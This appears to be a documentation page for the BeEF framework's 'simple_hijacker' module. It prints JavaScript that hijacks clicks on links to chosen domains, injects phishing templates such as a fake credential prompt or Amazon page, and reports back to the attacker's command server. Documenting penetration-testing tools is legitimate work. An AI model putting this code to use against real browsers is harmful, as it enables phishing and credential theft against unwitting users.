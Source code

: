 ##Summary
* **Objective**: Hijack clicks on links to display what you want.
* **Authors**: gallypette
* **Browsers**: All (user notified)
* **Parameters** :
  * **targeted domains** : Only links including one of this domain will be targeted (domains are separated by a comma)
  * **Template to use** : List of template for social engineering attacks : credential, confirmbox, amazon, chromecertbeggar, chromecertbeggar2
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/simple_hijacker)

## Internal working

Basically, this module will take any link in the page, check if it target one of the domains given and load one template to modify the link.

```javascript
    $j('a').click(function(e) {
      e.preventDefault();
      if ($j(this).attr('href') != '')
      {
        if( <% target.each{ |href| %> $j(this).attr('href').indexOf("<%=href%>") != -1 <% if href != target.last %> || <% else %> ) <% end %><% } %>{	
          <%
              tplpath = "#{$root_dir}/modules/social_engineering/simple_hijacker/templates/#{@choosetmpl}.js"
              file = File.open(tplpath, "r")
              @template = file.read
          %>
          <%= @template %>
          beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Template "<%= @choosetmpl %>" applied to '+$j(this).attr('href'));
        }
      }
    });
```

## Screenshots 

[[Images/module-simplehijacker1.png|align=center]]

## Feedbacks

* Domains are really important as the name should be included in the link. Links which are not included in this domain's list will not redirect anymore.